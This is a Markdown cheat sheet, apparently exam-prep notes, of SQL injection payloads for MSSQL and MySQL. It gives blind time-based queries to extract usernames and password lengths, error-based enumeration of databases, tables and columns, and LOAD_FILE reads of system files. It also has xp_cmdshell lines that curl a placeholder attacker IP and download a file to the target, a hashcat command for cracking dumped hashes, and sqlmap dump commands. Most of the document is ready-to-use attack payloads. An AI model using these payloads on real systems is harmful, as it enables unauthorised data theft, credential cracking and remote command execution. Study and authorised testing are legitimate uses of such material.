 ### :open_file_folder: References

- https://www.invicti.com/blog/web-security/sql-injection-cheat-sheet/
- https://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet
- https://medium.com/@notsoshant/a-not-so-blind-rce-with-sql-injection-13838026331e
- https://notchxor.github.io/oscp-notes/2-web/sqli/
- https://www.asciitable.com/
- https://pentestlab.blog/2012/12/24/sql-injection-authentication-bypass-cheat-sheet/
- https://www.securityidiots.com/Web-Pentest/SQL-Injection/Union-based-Oracle-Injection.html
- https://owasp.org/www-project-web-security-testing-guide/v41/4-Web_Application_Security_Testing/07-Input_Validation_Testing/05-Testing_for_SQL_Injection

### :open_file_folder: Blind SQL Injections

Find columns names

```SQL
' HAVING 1=1 --
' GROUP BY table.column1 HAVING 1=1 --
' GROUP BY table.column1, column2 HAVING 1=1 --
' GROUP BY table.column1, column2, column3(n) HAVING 1=1 -- and so on
```

Time-Based 

Use the waiting time to determine whether the conditional equation is valid

```SQL
-- e.g. guess username (ASCII)
'; IF (ASCII(lower(substring((select TOP 1 username from users), 1, 1))) > 97) WAITFOR DELAY '00:00:05' --
'; IF (ASCII(lower(substring((select TOP 1 username from users), 1, 1))) > 98) WAITFOR DELAY '00:00:05' -- and so on

-- e.g. confirm that the username is correct
'; IF (substring((select TOP 1 username from users), 1, 5) = 'admin') WAITFOR DELAY '00:00:05'--
```

```SQL
-- check column length
'; IF (select LEN(password) from users) = 64 WAITFOR DELAY '00:00:05' --
```

single column condition test

```SQL
/* 
    Check if there are uncommon [mysql] db names
    if found, wait N seconds
    ='1'...= '2'... and so on
*/
SELECT 'y' 
WHERE 1=0 or 
SLEEP(IF((SELECT COUNT(*) FROM information_schema.schemata 
WHERE schema_name NOT IN ('information_schema', 'mysql', 'performance_schema'))='1', 5, 0)); 
```

[MS SQL xp_cmdshell command testing](https://learn.microsoft.com/en-us/sql/relational-databases/system-stored-procedures/xp-cmdshell-transact-sql?view=sql-server-ver16)

```SQL
'; EXEC xp_cmdshell 'curl http://<attacker ip>'; --
'; EXEC xp_cmdshell 'curl http://<attacker ip>/<file> -o C:\\Users\\Public\\Documents\\<file>'; --
```

### :open_file_folder: Error-Based

SQL Server 

- https://infosecwriteups.com/exploiting-error-based-sql-injections-bypassing-restrictions-ed099623cd94
- https://perspectiverisk.com/mssql-practical-injection-cheat-sheet/

```SQL
/* Adding additional strings ensures that error messages are prompted. */

/* database */
(CASE WHEN 1=CONVERT(INT, (CHAR(58) + CHAR(58) + (SELECT TOP 1 CAST(([name]) AS NVARCHAR(4000)) FROM [master]..[sysdatabases] WHERE name NOT IN ('master','model','msdb','tempdb')) + CHAR(58) + CHAR(58))) THEN 1 ELSE 2 END)

/* table */
(CASE WHEN 1=CONVERT(INT, (SELECT TOP 1 table_name FROM information_schema.tables)) THEN 1 ELSE 2 END)
(CASE WHEN 1=CONVERT(INT, (SELECT TOP 1 table_name FROM information_schema.tables WHERE table_name NOT IN ('test'))) THEN 1 ELSE 2 END)

/* column */
(CASE WHEN 1=CONVERT(INT, (SELECT TOP 1 column_name FROM information_schema.columns where table_name = 'test')) THEN 1 ELSE 2 END)
(CASE WHEN 1=CONVERT(INT, (SELECT TOP 1 column_name FROM information_schema.columns where table_name = 'test' AND column_name NOT IN ('id'))) THEN 1 ELSE 2 END)

/* data */
(CASE WHEN 1=CONVERT(INT, (SELECT TOP 1 column1+';'+column2 FROM [database].dbo.test where id = '1')) THEN 1 ELSE 2 END)
```

### :open_file_folder: MySQL

Get DBs

```MySQL
SELECT group_concat(schema_name) FROM information_schema.schemata;
# For example, assuming that only one column is searched
# ' UNION SELECT group_concat(schema_name) FROM information_schema.schemata #
```

Get tables in DB

```MySQL
SELECT group_concat(table_name) FROM information_schema.tables WHERE table_schema = '<DB>';
```

Get columns in table

```MySQL
SELECT group_concat(column_name) FROM information_schema.columns WHERE table_name = '<table>';
```

Find all ```user``` tables in DBs

```MySQL
SELECT group_concat(column_name) FROM information_schema.columns where table_name = 'user';
# SELECT password FROM user
# MD5 password, hashcat -a 0 -m 0 hash.txt rockyou.txt
```

[Load file](https://dev.mysql.com/doc/refman/8.0/en/string-functions.html#function_load-file): we need FILE privilege

```MySQL
SELECT * LOAD_FILE('C:\Windows\System32\drivers\etc\hosts')
/* table contains columns */
x' UNION SELECT 1, LOAD_FILE('C:\Windows\System32\drivers\etc\hosts'),3-- -
```

Combining website LFI

```shell
wfuzz -z file,/tmp/file_inclusion_linux.txt -d "username=' UNION SELECT 1, LOAD_FILE('FUZZ'), 3, 4, 5, 6; -- -" --hw 89 <url>
# -d postdata
# -z file,wordlist
# hw:hide responses words
```

### :no_entry: sqlmap (:radioactive::radioactive::radioactive: cannot be used in the exam)

```
sqlmap -u "url" --dump -C "columns" -T "tables" -D "database" 
sqlmap -r post.txt -p "parameter_name" --dump -C "columns" -T "tables" -D "database"
```

post.txt = request contents

![SQLi_2022 02 28_19h37m55s_001](https://user-images.githubusercontent.com/8998412/155977929-7e38d3bb-8d61-4afa-af6b-90ae1e13ec73.png)


